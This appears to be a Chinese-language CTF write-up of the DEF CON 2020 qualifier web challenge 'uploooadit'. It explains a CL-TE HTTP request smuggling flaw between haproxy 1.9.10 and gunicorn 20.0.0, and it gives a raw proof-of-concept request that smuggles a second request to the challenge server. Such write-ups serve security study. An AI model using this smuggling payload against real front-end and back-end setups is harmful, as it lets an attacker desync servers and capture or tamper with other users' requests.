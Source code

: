 Title = "Defcon CTF Qual 2020  writeup "

description = "Defcon 2020 Qual 的 web"

tags = ["CTF","WriteUp"] 

publishtime = 2020-05-21T00:03:54 
lastedittime = 2020-05-21T00:03:54 
uuid = "b21e18dd-0a44-4b99-81e1-ad9c76e4c43f"
-+_+-



## uploooadit



题目环境：

> server: gunicorn/20.0.0
>
> via: haproxy
>
> lib:  boto3  flask

https://nathandavison.com/blog/haproxy-http-request-smuggling

https://www.cnblogs.com/icez/p/haproxy_http_request_smuggling.html

找了一下 gunicorn 与 haproxy 是存在 CL 与 TE 之间解析差异的，这就导致了 smuggling 。

具体情况应该是 在 haproxy 的时候是按 CL 解析的，然后好像在发往backend  gunicorn 的时候把 CL抛弃了，只留下 TE，到达 backend 以后是优先按 TE

通过使其 `time out` 或者 `openssl s_client -connect uploooadit.oooverflow.io:443` 报错得到 haproxy  的版本 1.9.10

https://github.com/benoitc/gunicorn/releases

查看releases 知道 gunicorn 的 fix 在 20.0.1，因此 20.0.0 是仍然存在 smuggling 的。

通过下面这个确认存在 CL-TE smuggling

```
POST /files/ HTTP/1.1
Host: uploooadit.oooverflow.io
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
X-guid: 99999999-9999-9999-9999-999999999992
Content-Type: text/plain
Transfer-Encoding: chunked
Content-Length: 92

0

ET /files/99999999-9999-9999-9999-999999999990 HTTP/1.1
Host: uploooadit.oooverflow.io


```
